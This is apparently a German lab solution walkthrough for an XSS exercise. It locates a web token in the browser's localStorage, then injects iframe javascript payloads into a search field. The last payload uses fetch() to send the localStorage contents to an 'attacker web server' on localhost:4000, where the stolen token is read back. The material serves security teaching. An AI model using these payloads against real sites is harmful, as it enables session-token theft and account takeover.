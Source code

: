 # Lösungsschritte

## Speichertort des Web Tokens

1. Öffnen Sie die Browser-Entwickler-Tools mit `F12`

2. Klicken Sie auf den Reiter `Application`. Wählen Sie die Storage Option `Local storage` aus, dort finden Sie einen Eintrag `token`

![alt text](./img/image.png)

## Ausführen der XSS-Attacke

1. Mit einem Klick auf die Lupe erscheint ein Eingabefeld - die globale Suche.
2. Dort geben Sie folgende Zeichenkette ein:
`<iframe src="javascript:alert('XSS Attacke erfolgreich')">` 

Daraufhin sollte eine Dialogbox erscheinen:
![alt text](img/image-1.png)

## Auslesen den Web Tokens

1. Nun können Sie die Zeichenkette so verändern, dass der Web Token innerhalb der Dialogbox erscheint:

`<iframe src="javascript:alert(JSON.stringify(localStorage))">`

2. Starten Sie den Attacker Webserver mit `npm start`

3. Verändern Sie die Zeichenkette erneut, sodass der Web Token nun an Ihren Attacker Web Server gesendet wird:
```
<iframe src="javascript:fetch(`http://localhost:4000?data=${JSON.stringify(localStorage)}`)">
```

4. Rufen Sie nun `http://localhost:4000/` in ihrem Web Browser auf, sie sollten dort nun den gestohlenen Web Token wieder finden:
![alt text](img/image-2.png)